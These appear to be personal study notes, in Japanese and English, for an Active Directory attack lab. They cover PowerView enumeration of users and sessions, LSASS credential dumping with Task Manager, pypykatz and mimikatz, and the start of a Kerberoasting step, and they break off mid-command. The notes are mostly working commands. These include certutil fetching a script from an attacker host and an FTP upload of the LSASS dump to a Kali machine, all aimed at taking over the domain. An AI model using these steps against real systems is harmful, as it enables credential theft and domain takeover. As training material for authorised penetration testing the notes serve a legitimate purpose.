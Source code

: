 ```

(certutil -URLcache -f http://192.168.119.160/PowerView.ps1 PowerView.ps1)

## Show Current Logged In Users

まず、Get-NetLoggedon でログインユーザを列挙する際に、対象となるワークステーショ ンやサーバを指定するために-ComputerName オプションを使います。ここでは Windows 10 クライアントを対象としているので、-ComputerName client251 とします。

(Computer name "client251", `hostname` command tells you your computer name)

```PS> Get-NetLoggedon -ComputerName client251```

## Show All Activated Sessions

ドメインコントローラ DC01 上のアクティブなセッションを取得してみましょう。

```PS> Get-NetSession -ComputerName dc01```

 (Probably, dc01 is Doamin Controller (it's ok not to specify "dc01"))

（Domain Admins の一人を侵害することに成功すれば、最終的にはドメイン全体を乗っ取ることができます)

> グループメンバーシップを列挙し、ユーザが現在ログインしているマシンを特定できるよ うになったので、ユーザアカウント侵害を開始するために必要な基本スキルを身につける ことができました。最終目的はドメイン管理者権限の獲得です。


# LSASS Attack (Local Security Authority Subsystem Service)

（Microsoft の Kerberos の実装ではシングルサインオンを採用しているため、TGT 要求を更新するためにパスワードハッシュをどこかに保存しておく必要がある）
（シングルサインオン...1度ユーザー認証 (ログイン)を行うと、複数のシステムを利用開始する際に都度認証を行う必要がない仕組み）

## Using TaskManager
On Windows machine (that's to say open the Windows OS by remote desktop):
 start -> WindowsSystem -> taskmanager -> Details -> right click the lsass.exe -> Create dump file (e.g. C:\Users\admin\AppData\Local\Temp\lsass.DMP)

At command prompt:
```> ftp <kali IP address>
ftp> bin
ftp> put lsass.DMP
```

On Kali terminal:

```$ pypykatz lsa minidump lsass.DMP```

## Usin Mimikatz
 
```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

（`sekurlsa::logonpasswords`はそこまで出力内容は変わらないが、`sekurlsa::logonpasswords`よりも冗長。あ、でもlogonpasswordsの方は”クリアパスワード”が出ることもある。）

[*]Try both TaksManager way and Mimikatz way. They probably result in different.

# Service Account Attacks (passwords of http, mysql, ftp...)
Abusing the SPN's ticket and cracking those service's accout passwords.

step.1: Get Service Tickets

```
PS> Add-Type -AssemblyName System.IdentityModel